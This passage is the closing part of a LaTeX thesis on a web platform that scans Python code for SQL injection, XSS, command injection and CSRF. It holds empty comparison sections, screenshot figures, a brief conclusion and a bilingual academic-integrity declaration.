  % Content to be provided.

  \item \textbf{Comparison: Semgrep vs ML.}\\
  % Content to be provided.

  \item \textbf{Comparison: Semgrep vs static analysis.}\\
  % Content to be provided.
\end{enumerate}

\section{CSRF}
\label{sec:results_csrf}

\begin{enumerate}
  \item \textbf{Comparison: ML vs static analysis.}\\
  % Content to be provided.

  \item \textbf{Comparison: Semgrep vs ML.}\\
  % Content to be provided.

  \item \textbf{Comparison: Semgrep vs static analysis.}\\
  % Content to be provided.
\end{enumerate}

\section{Platform Screenshot}
\label{sec:platform_screenshots}

This section shows representative UI screens from the web-based platform for all
four vulnerability types.

\begin{figure}[htbp]
	\centering
	\begin{minipage}[t]{0.48\linewidth}
		\centering
		
\includegraphics[width=\linewidth]{Images/ui_scanner_sql.png}
		
		\small SQL Injection scanner
	\end{minipage}\hfill
	\begin{minipage}[t]{0.48\linewidth}
		\centering
		
\includegraphics[width=\linewidth]{Images/ui_scanner_xss.png}
		
		\small XSS scanner
	\end{minipage}
	
	\vspace{0.6em}
	
	\begin{minipage}[t]{0.48\linewidth}
		\centering
		
\includegraphics[width=\linewidth]{Images/ui_scanner_command.png}
		
		\small Command Injection scanner
	\end{minipage}\hfill
	\begin{minipage}[t]{0.48\linewidth}
		\centering
		
\includegraphics[width=\linewidth]{Images/ui_scanner_csrf.png}
		
		\small CSRF scanner
	\end{minipage}
	\caption{Scanner screens for SQL Injection, XSS, Command Injection, and CSRF in the platform.}
	\label{fig:ui_scanner_screens}
\end{figure}

\begin{figure}[htbp]
	\centering
	\begin{minipage}[t]{0.48\linewidth}
		\centering
		
\includegraphics[width=\linewidth]{Images/ui_results_sql.png}
		
		\small SQL Injection results
	\end{minipage}\hfill
	\begin{minipage}[t]{0.48\linewidth}
		\centering
		
\includegraphics[width=\linewidth]{Images/ui_results_xss.png}
		
		\small XSS results
	\end{minipage}
	
	\vspace{0.6em}
	
	\begin{minipage}[t]{0.48\linewidth}
		\centering
		
\includegraphics[width=\linewidth]{Images/ui_results_command.png}
		
		\small Command Injection results
	\end{minipage}\hfill
	\begin{minipage}[t]{0.48\linewidth}
		\centering
		
\includegraphics[width=\linewidth]{Images/ui_results_csrf.png}
		
		\small CSRF results
	\end{minipage}
	\caption{Results screens for SQL Injection, XSS, Command Injection, and CSRF in the platform.}
	\label{fig:ui_results_screens}
\end{figure}


\chapter{Conclusion}
\label{ch:conclusion}

This thesis presents the design and implementation of a web-based vulnerability scanning platform that detects security flaws in Python applications using two complementary approaches: static code analysis and machine learning--based detection. The platform targets four critical web vulnerabilities---SQL injection, Cross-Site Scripting (XSS), command injection, and Cross-Site Request Forgery (CSRF)---and integrates the BiLSTM model from Farasat and Posegga~\cite{Farasat2024MLPython}, which is evaluated on seven vulnerability types (including remote code execution, path disclosure, and open redirect) on the VulnerabilityDetection dataset. The comparison tables (static analysis with Semgrep and Bandit, ML-based model with other models, and web-based tools) are in Chapter~\ref{ch:results} (Results and Comparison).


%\bibliographystyle{gerabbrv}
%\bibliography{literature}


\newpage
\printbibliography



\chapter*{Declaration of Academic Integrity / Eidesstattliche Erkl\"arung}

Ich erkläre, dass ich die vorliegende Arbeit selbständig, ohne fremde Hilfe und ohne Benutzung anderer als der angegebenen Quellen und Hilfsmittel verfasst habe und dass alle Ausführungen, die wörtlich oder sinngemäß übernommen wurden, als solche gekennzeichnet sind. Mit der aktuell geltenden Fassung der Satzung der Universität Passau zur Sicherung guter wissenschaftlicher Praxis und für den Umgang mit wissenschaftlichem Fehlverhalten vom 31. Juli 2008 (vABlUP Seite 283) bin ich vertraut. Ich erkläre mich einverstanden mit einer Überprüfung der Arbeit unter Zuhilfenahme von Dienstleistungen Dritter (z.B. Anti-Plagiatssoftware) zur Gewährleistung der einwandfreien Kennzeichnung übernommener Ausführungen ohne Verletzung geistigen Eigentums an einem von anderen geschaffenen urheberrechtlich geschützten Werk oder von anderen stammenden wesentlichen wissenschaftlichen Erkenntnissen, Hypothesen, Lehren oder Forschungsansätzen.

\vspace{0.5cm}

	Passau, \fttoday

	\vspace{1.5cm}

	\parbox{5cm}{
	\hrule \strut Firstname Lastname}

	\vspace{1cm}


I hereby confirm that I have composed this scientific work independently without anybody else’s assistance and utilising no sources or resources other than those specified. I certify that any content adopted literally or in substance has been properly identified. I have familiarised myself with the University of Passau’s most recent Guidelines for Good Scientific Practice and Scientific Misconduct Ramifications from 31 July 2008 (vABlUP Seite 283). I declare my consent to the use of third-party services (e.g., anti-plagiarism software) for the examination of my work to verify the absence of impermissible representation of adopted content without adequate designation violating the intellectual property rights of others by claiming ownership of somebody else’s work, scientific findings, hypotheses, teachings or research approaches.


\vspace{0.5cm}

	Passau, \fttoday


	\vspace{1.5cm}

	\parbox{5cm}{
	\hrule \strut Firstname Lastname}






\end{document}
